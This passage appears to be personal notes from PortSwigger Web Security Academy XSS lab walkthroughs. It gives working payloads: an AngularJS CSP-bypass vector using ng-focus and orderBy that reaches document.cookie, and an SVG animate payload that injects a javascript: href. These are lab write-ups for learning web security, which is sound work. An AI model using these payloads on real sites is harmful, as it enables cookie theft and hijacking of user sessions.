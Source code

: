 **Analysis**:
1. Go to the exploit server and paste the following code, replacing `YOUR-LAB-ID` with your lab ID:
	```javascript
	<script> 
	
	location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x'; 

	</script>
	```
2. Click "Store" and "Deliver exploit to victim". The exploit uses the `ng-focus` event in AngularJS to create a focus event that bypasses CSP. It also uses `$event`, which is an AngularJS variable that references the event object. The `path` property is specific to Chrome and contains an array of elements that triggered the event. The last element in the array contains the `window` object.
3. Normally, `|` is a bitwise or operation in JavaScript, but in AngularJS it indicates a filter operation, in this case the `orderBy` filter. The colon signifies an argument that is being sent to the filter. In the argument, instead of calling the `alert` function directly, we assign it to the variable `z`. The function will only be called when the `orderBy` operation reaches the `window` object in the `$event.path` array. This means it can be called in the scope of the window without an explicit reference to the `window` object, effectively bypassing AngularJS's `window` check.

Payload to be inserted as search parameter
```javascript
?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x
```

**Workflow**:
1. ![](Pasted%20image%2020250307181731.png)
2. ![](Pasted%20image%2020250307182518.png)
3. ![](Pasted%20image%2020250307182704.png)

# 23. Reflected XSS with event handlers and `href` attributes blocked
This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor `href` attributes are blocked.
To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the `alert` function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example: `<a href="">Click me</a>`

**Analysis**:
1. Visit the following URL, replacing `YOUR-LAB-ID` with your lab ID:
	`https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E

Payload:
```javascript 
?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```

- The payload is attempting to use **SVG (Scalable Vector Graphics)** as an attack vector.
- Inside the `<svg>` element, an `<a>` (anchor) tag is used.
- An `<animate>` element is applied to manipulate the `href` attribute of the `<a>` tag.
- The `values` attribute of `<animate>` contains `javascript:alert(1)`, which means it attempts to execute JavaScript when the animation triggers.
- The `<text>` element provides clickable text ("Click me") to lure the user into clicking the malicious link.
